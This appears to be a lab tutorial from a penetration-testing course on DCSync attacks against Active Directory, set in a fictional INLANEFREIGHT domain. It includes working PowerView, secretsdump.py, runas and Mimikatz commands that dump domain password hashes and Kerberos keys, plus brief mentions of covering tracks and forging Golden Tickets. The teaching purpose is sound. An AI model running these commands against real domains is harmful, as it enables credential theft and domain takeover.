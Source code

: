 ## What is DCSync and How Does it Work?

DCSync is a technique for stealing the AD password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by DCs to replicate data. This allows an attacker to mimic a DC to retrieve user NTLM password hashes.

The crux of the attack is requesting a DC to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

We must have control over an account that has rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

### Viewing User's Replication Privileges Through ADSI Edit
![[adnunn_right_dcsync.webp]]

It is common during an assessment to find other accounts that have these rights, and once compromised, their access can be utilized to retrieve the current NTLM password hash for any domain user and the hashes corresponding to their previous passwords.

### Using Get-DomainUser to View User's Group Membership
```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

We can confirm that the user has the necessary permissions with PowerView. We first get the SID in the above command and then check all ACLs set on the domain object using [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/). Here we search specifically for replication rights and check if our user possesses these rights.

### Using Get-ObjectAcl to Check User's Replication Rights
```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```shell-session
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user. Other useful options include `-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The `-user-status` is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:

- Number and % of passwords cracked
- top 10 passwords
- Password length metrics
- Password re-use

reflect only active user accounts in the domain.

If we check the files created using the `-just-dc` flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled.

While rare, we see accounts with these settings from time to time. It would typically be set to provide support for applications that use certain protocols that require a user's password to be used for authentication purposes.

### Viewing an Account with Reversible Encryption Password Storage Set
![[reverse_encrypt.webp]]

When this option is set, the passwords are stored using RC4 encryption, with the key needed stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a domain admin or equivalent. Tools such as `secretsdump.py` will decrypt those passwords while dumping the NTDS file either as a domain admin or using an attack such as DCSync. Any passwords set on accounts with this setting enabled will be stored using reversible encryption until they are changed, even if this setting is disabled. We can enumerate this using the `Get-ADUser` cmdlet:

### Enumerating Further Using Get-ADUser
```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

We can check it with PowerView as well:

### Checking for Reversible Encryption Option Using Get-DomainUser
```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

Some organizations use it for all users to dump NTDS and perform periodic password strength audits.

We can use Mimikatz for the attack as well. To use Mimikatz we have to target a specific user. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence.

Mimikatz must be run in the context of the user with the DCSync privileges. We can utilize `runas.exe` to accomplish this:

### Using runus.exe
```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack With Mimikatz
```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
